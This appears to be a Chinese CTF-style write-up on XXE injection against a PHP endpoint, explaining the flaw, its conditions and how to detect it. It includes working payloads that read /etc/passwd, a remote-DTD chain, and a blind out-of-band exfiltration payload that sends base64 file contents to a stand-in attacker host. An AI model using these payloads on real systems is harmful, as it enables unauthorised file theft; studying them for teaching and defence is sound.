


## 一句话概括

后端把用户提交的 XML 交给解析器时，**解析器会主动去读 DTD 里 `SYSTEM` 指向的资源**（本地文件、远程 URL、甚至命令流），并把读到的内容填回文档里。如果这块内容又被页面输出，攻击者就能读走服务器上的任意文件 —— 这就是 XXE（XML External Entity Injection，外部实体注入）。

## 本题情景与解题手法

### 题目形态

题目直接给出了后端的 PHP 源码：

```php
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xml = file_get_contents('php://input');   // 把 POST 的原文读进 $xml
if(isset($xml)){
    $dom = new DOMDocument();               // 实例化解析器
    $dom->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);  // 加载提交的内容
    $creds = simplexml_import_dom($dom);
    $benben = $creds->admin;                 // 取 admin 节点
    echo $benben;                            // 输出
}
highlight_file(__FILE__);
?>
```

从源码能直接读出三个关键事实：

| 源码片段 | 含义 |
|---|---|
| `file_get_contents('php://input')` | 请求体原文就是 XML 文本，**完全可控** |
| `loadXML($xml, LIBXML_NOENT \| LIBXML_DTDLOAD)` | `LIBXML_NOENT` = 展开实体，`LIBXML_DTDLOAD` = 加载 DTD → **外部实体会被解析** |
| `echo $benben;` | `$creds->admin` 的值会被打印 → **有回显** |
| `libxml_disable_entity_loader(false)` | 显式允许加载外部实体（PHP < 8.0 的老写法） |

一句话：**输入可控 + 实体可加载 + 结果有回显，三个条件全齐，可以打。**

### 第一步：先发一个「正常」的 XML 看看会不会被解析

先用 Burp 拦截一个请求，把请求体改成合法 XML，`Content-Type` 改成 XML 类型：

```http
POST /xxe01/xxe01/class06.php HTTP/1.1
Host: 靶机地址
Content-Type: application/xml;charset=utf-8
Content-Length: 39

<root>
    <admin>benben</admin>
</root>
```

判断依据：**因为源码里 `$benben` 取的是 `admin` 节点，所以子元素名必须叫 `admin`**。如果页面原样回显了 `benben`，说明 XML 被成功解析、回显链路是通的。

> 此处原为「Burp 拦截改包」的截图，操作要点：把请求拦截下来 → 把 `Content-Type` 改为 `application/xml;charset=utf-8` → 把请求体替换成上面的 XML。

### 第二步：把 admin 节点的内容换成外部实体

```xml
<!DOCTYPE root [<!ENTITY QIU SYSTEM "file:///etc/passwd">]>
<root>
    <admin>&QIU;</admin>
</root>
```

- `<!DOCTYPE root [...]>` 里声明了一个外部实体 `QIU`，`SYSTEM` 指向 `/etc/passwd`
- 在 `<admin>` 里用 `&QIU;` 引用它
- 解析器读到 `&QIU;` 时去读 `/etc/passwd`，把内容替换到这里
- 因为 `echo $benben` 输出的正是 `admin` 节点 → **文件内容直接出现在响应里**

三步口诀（原笔记总结）：

1. **找回显部分**
2. **引用外部实体**
3. **把回显部分的内容替换为外部实体引用**

### 第三步：伪协议被过滤时，改用远程 DTD + 参数实体

如果服务器过滤了 `file://` 之类的伪协议，思路是：**把命令藏在自己的 `1.dtd` 外部文件里，通过 http 协议调用这个存在外部实体的地址，再用参数实体把文件引进来**。

攻击机（Kali）上的操作：

```bash
cd /tmp                 # 进入临时目录
vim 1.dtd               # 创建恶意 DTD 文件，i 插入内容：
```

`1.dtd` 的内容：

```xml
<!ENTITY ben SYSTEM "file:///etc/passwd">
```

```bash
python3 -m http.server 80   # 在 80 端口起一个 HTTP 服务器，把 1.dtd 挂出去
ip add                      # 查看本机 IP，作为 payload 里的地址
```

然后改包，把请求体换成：

```xml
<!DOCTYPE root [
<!ENTITY % darhuang SYSTEM "http://x.x.x.x/1.dtd">
%darhuang;
]>
<user>
    <username>&ben;</username>
    <password>abenben</password>
</user>
```

调用链是这样的：

1. `%darhuang;` 让解析器去 `http://x.x.x.x/1.dtd` 拉取外部 DTD
2. 拉回来的 DTD 里定义了实体 `ben`
3. XML 主体里的 `&ben;` 引用了它 → **`$ben` 的内容来自 1.dtd 文件**
4. 同理，`<username>` 是否被回显取决于源码里 `$benben` 取的是哪个节点，本题取 `admin`，所以要按源码改节点名

> 此处原为「远程 DTD 攻击」的截图，操作要点：1.dtd 挂到攻击机 HTTP 服务上，请求体里用参数实体 `%darhuang;` 引用它，再用 `&ben;` 把内容引回文档主体。

### 注入手法一句话总结

> **可控 XML 请求体** → 改 `Content-Type` 为 XML → 用 `<!ENTITY xxe SYSTEM "file:///目标文件">` 声明外部实体 → 在**回显节点**里 `&xxe;` 引用 → 解析器替你去读文件并把内容填进节点 → `echo` 出来。伪协议被过滤时，把实体声明搬到自己的 HTTP 服务器上的 `.dtd` 里，用**参数实体**引进来。

## 原理

### 1. XML 解析器对「实体引用」的处理不是简单的文本替换

普通的字符串替换不会去读文件。外部实体的特别之处在于：**`SYSTEM` 后面跟的是一个 URI，解析器必须真的去「取」这个 URI 的内容，取回来之后才做替换。**

```xml
<!ENTITY QIU SYSTEM "file:///etc/passwd">
```

| 部分 | 含义 |
|---|---|
| `<!ENTITY ...>` | 声明一个实体 |
| `QIU` | 实体名 |
| `SYSTEM` | 说明值不是字面量，而是一个 URI |
| `file:///etc/passwd` | 要读取的资源地址 |

在文档里写 `&QIU;`，解析器就执行「读取 `file:///etc/passwd` → 把内容作为文本节点插到引用位置」。**`file://` 是 libxml 内置支持的协议**，所以这个读取动作不需要任何额外权限，纯粹是解析器的正常功能。



### 2. 为什么源码里那两个参数是必需的

```php
$dom->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);
```

| 参数 | 作用 | 不写会怎样 |
|---|---|---|
| `LIBXML_NOENT` | `NOENT = substitute entities`，**展开实体** | 实体引用会原样留在文档里，`&QIU;` 不会被替换成文件内容 |
| `LIBXML_DTDLOAD` | 加载外部 DTD | 外部 DTD 不会被读取，远程 DTD 攻击链断掉 |

```php
libxml_disable_entity_loader(false);
```

- 这是 **PHP < 8.0** 的接口，默认值就是 `false`（允许加载外部实体），这里显式写一遍相当于「明确放开」。
- **PHP 8.0 起该函数被废弃，libxml 默认不再加载外部实体**，即使写 `false` 也不起作用 —— 所以新版本 PHP 上这类题基本打不了。

### 3. 「有回显」为什么这么关键

解析器读完文件、把内容填进文档，这只是**服务端内部**的动作。攻击者能不能拿到，取决于**应用层有没有把那个节点输出出来**：

```php
$creds = simplexml_import_dom($dom);
$benben = $creds->admin;   // 取 admin 节点的值
echo $benben;              // 输出
```

- 如果 `echo` 的是**我们放了实体的那个节点** → 文件内容直接回显，最简单
- 如果哪儿都不输出 → 属于**盲 XXE**，只能用参数实体把数据「外带」到攻击者的服务器上



### 4. 绕过过滤的整体思路

| 情况 | 对策 |
|---|---|
| 只过滤了 `file://` | 试 `php://filter` 编码读取、`expect://` 执行命令 |
| 过滤了 `SYSTEM` / `ENTITY` 关键字 | 把实体声明搬到**远程 DTD**，内部子集里只留 `%remote;` |
| 完全不能改写 `<!DOCTYPE>` | 试 **XInclude**（不需要 DTD） |
| 没有回显 | **参数实体 + OOB 外带**（HTTP/DNS） |

## 利用条件

1. **应用解析用户可控的 XML**：接口收 XML、上传 XML/SVG、可改 `Content-Type`
2. **能控制到 `<!DOCTYPE>`**：即可以在文档开头声明 DTD
3. **解析器允许外部实体**：`LIBXML_NOENT`；PHP < 8.0 且未禁用实体加载
4. **要有出口**：节点被回显（有回显），或服务器能发起外连（盲注 OOB）
5. **目标资源可读**：`file://` 能读到；`php://filter` 需要 PHP 环境；`expect://` 需要装了 expect 扩展

## 判断 XXE 是否存在

### 方法一：基础检测（先测「解不解析」）

```xml
<!-- 测试外部实体是否会被展开/加载：指向自己的 HTTP 服务器，看有没有回连 -->
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://攻击者IP"> ]>
<data>&xxe;</data>

<!-- 测试文件读取：看响应里有没有文件内容 -->
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data>&xxe;</data>
```

判据：**HTTP 服务器收到请求** → 外部实体被加载；**响应里出现 `root:` 之类的文件内容** → 文件读取成功。

### 方法二：参数实体检测（适用「主体里不能用 DOCTYPE」的场景）

```xml
<!DOCTYPE test [
    <!ENTITY % remote SYSTEM "http://攻击者IP/dtd">
    %remote;
]>
```

判据：攻击机 HTTP 日志里出现对 `/dtd` 的请求。

### 方法三：盲注 XXE 检测（无回显时的带外数据外传）

```xml
<!-- 带外数据外传 -->
<!DOCTYPE test [
    <!ENTITY % xxe SYSTEM "http://攻击者IP/xxe">
    %xxe;
]>
```

判据：**响应里什么都没有，但攻击机收到了回连** —— 这就说明存在盲 XXE，接下来可以换成把文件内容拼进 URL 的完整外带 payload。

## Payload 速查

| 目的 | Payload |
|---|---|
| 读本地文件（有回显） | `<!DOCTYPE r [<!ENTITY x SYSTEM "file:///etc/passwd">]><r><admin>&x;</admin></r>` |
| 读指定文件 | 把 `file:///...` 换成目标路径，Windows 用 `file:///c:/windows/win.ini` |
| 探测是否加载外部实体 | `<!ENTITY x SYSTEM "http://攻击者IP/">` |
| 远程 DTD 声明（绕过本地过滤） | `<!ENTITY % r SYSTEM "http://攻击者IP/1.dtd">%r;` |
| 参数实体引用 | `%r;` |
| 无回显外带 | 见「盲 XXE」外带三件套：`%file` 读内容 → `%eval` 拼参数实体 → `%send` 发 URL |
| 绕过 `file://` 过滤 | `php://filter/read=convert.base64-encode/resource=/etc/passwd` |

## 完整示例

### 有回显：一条 payload 读文件

请求：

```http
POST /xxe01/xxe01/class06.php HTTP/1.1
Host: 靶机地址
Content-Type: application/xml;charset=utf-8

<!DOCTYPE root [<!ENTITY QIU SYSTEM "file:///etc/passwd">]>
<root>
    <admin>&QIU;</admin>
</root>
```

响应里 `<admin>` 的位置会变成 `/etc/passwd` 的全文。

### 无回显：OOB 外带（盲 XXE 三件套）

攻击机 `/tmp/1.dtd`：

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#37; send SYSTEM 'http://攻击者IP:8000/?x=%file;'>">
%eval;
%send;
```

请求体：

```xml
<!DOCTYPE root [
    <!ENTITY % remote SYSTEM "http://攻击者IP/1.dtd">
    %remote;
]>
<root><admin>whatever</admin></root>
```

攻击机上开一个监听：

```bash
python3 -m http.server 8000
```

然后看日志里收到的请求：

```text
GET /?x=cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW46L2Jpbi9iYXNoCg==
```

`?x=` 后面就是 `/etc/passwd` 的 base64，解一下就有明文了：

```bash
echo "cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW46L2Jpbi9iYXNoCg==" | base64 -d
```

## 踩坑与备注

- **节点名要跟着源码走**：`$benben = $creds->admin;` 说明回显节点叫 `admin`。换个源码就要换节点名，这是新手最容易卡住的地方。
- **`Content-Type` 必须改**：很多后端按 `Content-Type` 分流处理逻辑，不改的话可能根本走不到 XML 解析分支。
- **`http://攻击者IP` 不能带路径斜杠**：`http://攻击者IP` 触发的是 DNS/HTTP 请求，用来判断「外部实体是否被加载」，不要指望它回显内容。
- **PHP 版本决定成败**：`libxml_disable_entity_loader` 在 PHP 8.0 已被废弃，PHP 8.0+ 默认不加载外部实体，这类题目通常跑在 PHP 7.x 上。
- **原笔记里的攻击机地址 `172.19.1.215` 属于一次性环境地址**，本文统一写作 `x.x.x.x` / `攻击者IP`，实战时替换成自己那台机器的 IP。
- **`error_reporting(0)` 会吞掉报错**：加载失败的提示看不到了，判断只能靠回显内容或外连日志。
